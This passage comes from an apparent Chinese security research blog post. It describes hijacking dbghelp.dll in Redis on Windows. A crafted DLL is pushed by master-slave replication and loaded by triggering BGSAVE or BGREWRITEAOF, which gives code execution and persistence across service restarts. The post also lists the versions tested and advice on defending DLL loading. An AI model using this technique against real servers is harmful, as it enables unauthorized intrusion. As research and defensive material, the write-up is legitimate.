[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135904-17aefdac-dd2a-1.jpg)

后来发现与之相关的 `BGREWRITEAOF` 命令也会有同样的效果，其实可能还会有更多的命令会有这种效果，但并没有全部测试。有了刚才利用3389进行劫持的基础，现在来利用这个应该就比较简单了。

### 再次利用

1.  通过 DLLHijacker.py 生成sln 项目，并修改原DLL地址，这里直接引用 System32 下的dbghelp.dll，就不需要再传一个了。
2.  将修改后劫持的DLL，通过主从复制传入 `C:\Program Files\Redis`。
3.  连接redis, 执行bgsave。

可以看到执行了两次，并产生两个 calc 进程，这样就不需要被动等待DLL劫持带来的效果啦。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135905-184bfce2-dd2a-1.jpg)

在重启服务后，会自动加载此DLL，自动伴随持久化效果。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135905-1875a772-dd2a-1.jpg)

文件已被加载，无法直接删除。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20200813135905-18a0f2e2-dd2a-1.jpg)

### 总结&防御

-   另外关于 Redis DLL劫持这个利用点，可能还有利用一些 Windows 周期性自动运行的服务引发的DLL劫持，也可以作为利用的点，比如 wmiprvse、searchindexer等等吧，具体也没研究，听铁师傅说起过。
-   此利用还是依赖于写主从无损文件，所以内网利用可能问题不大，公网利用还是需要目标有出网的能力。
-   还需注意的是，不同操作系统版本的 `dbghelp.dll` 存在差异，在制作的时候，最好使用相同版本的dll进行劫持。

测试情况：

-   \[x\] Windows Server 2012 / Redis 3.2.100
-   \[x\] Windows 7 / Redis 3.0.504
-   \[x\] Windows Server 2008 / Redis 2.8.2103

其他版本还需要自行测试。

如果自己写的程序也存在此类问题？防御方面很多文章也写了，这里就直接引用一下吧。

> -   在加载 DLL 时尽量使用 DLL 的绝对路径
> -   调用 SetDllDirectory(L"") 把 当前目录 从 DLL 搜索目录中排除
> -   使用 LoadLibraryEx 加载 DLL 时，指定 LOAD\_LIBRARY*SEARCH* 系列标志
> -   可以尝试去验证 DLL 的合法性，例如是否具有自家的合法数字签名、是否是合法的系统 DLL 文件等

最近事情比较多，断断续续写了写，不是什么好文，也可能有比较多错误，还望指正,感谢@CoColi的帮助。

## 补充

忘记说了一点就是关于主从复制清空数据的问题，后来得知 jkme 师傅[文章中](https://jkme.github.io/redis-on-windows-dll-hijack.html)最后使用到的 redis-dump-go，可以一定程度解决这个问题。

## Reference

[https://redis.io/](https://redis.io/)  
[https://juejin.im/post/6844903943764443149](https://juejin.im/post/6844903943764443149)  
[https://juejin.im/post/6844903939339452430](https://juejin.im/post/6844903939339452430)  
[https://juejin.im/post/6844903572711161863](https://juejin.im/post/6844903572711161863)  
[https://github.com/kiwings/DLLHijacker](https://github.com/kiwings/DLLHijacker)  
[https://kiwings.github.io/2019/04/04/th-DLL%E5%8A%AB%E6%8C%81/](https://kiwings.github.io/2019/04/04/th-DLL%E5%8A%AB%E6%8C%81/)  
[https://jkme.github.io/redis-on-windows-dll-hijack.html](https://jkme.github.io/redis-on-windows-dll-hijack.html)